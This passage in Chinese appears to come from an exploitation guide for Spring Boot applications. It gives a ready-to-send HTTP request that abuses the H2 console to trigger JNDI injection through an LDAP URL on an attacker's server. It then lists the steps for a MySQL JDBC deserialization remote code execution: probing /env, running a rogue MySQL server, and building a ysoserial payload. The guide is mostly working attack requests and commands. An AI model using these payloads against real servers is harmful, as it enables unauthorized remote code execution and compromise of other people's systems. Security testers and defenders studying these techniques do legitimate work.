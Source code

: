 ##### 步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```php
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```

#### 漏洞分析：

[Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)

#### 漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```php
http://127.0.0.1:9096/h2-console
```

### 0x08：mysql jdbc deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标环境中存在 `mysql-connector-java` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

##### 步骤一：查看环境依赖

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java` 关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如 `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value` 值，方便后续恢复其正常 jdbc url 值。

##### 步骤二：架设恶意 rogue mysql server

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```php
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```
